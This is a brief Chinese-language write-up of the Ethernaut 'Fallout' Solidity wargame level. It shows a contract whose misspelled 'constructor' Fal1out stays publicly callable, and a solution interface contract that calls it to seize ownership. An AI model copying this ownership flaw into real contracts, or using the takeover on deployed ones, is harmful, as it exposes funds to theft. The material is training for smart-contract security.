 ```yaml
---
title: ethernaut NO.2
tags: TeXt
---
```


# fallout

**知识点：接口函数的应用**

要求：获得合约的使用权

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Fallout {
    using SafeMath for uint256;

    mapping(address => uint256) allocations;
    address payable public owner;

    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    } //在0.6版本中构造函数需要用与合约相同的函数。。此为可以供我们使用的外部公开函数

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function allocate() public payable {
        allocations[msg.sender] = allocations[msg.sender].add(msg.value);
    }

    function sendAllocation(address payable allocator) public {
        require(allocations[allocator] > 0);
        allocator.transfer(allocations[allocator]);
    }

    function collectAllocations() public onlyOwner {
        msg.sender.transfer(address(this).balance);
    }

    function allocatorBalance(address allocator) public view returns (uint256) {
        return allocations[allocator];
    }
}
```

**解法**：

利用接口函数另外再创建一个合约来调用该合约

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8;
interface Fallout {   
    function Fal1out() external payable ;
    function owner() external view returns (address) ;
}
```

**合约如上**

再将上个合约的地址置于

![image-20240424223334548](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20240424223334548.png)

先调用Fal1out函数将合约设置为我们钱包的地址，然后再调用owner就可以查看拥有者地址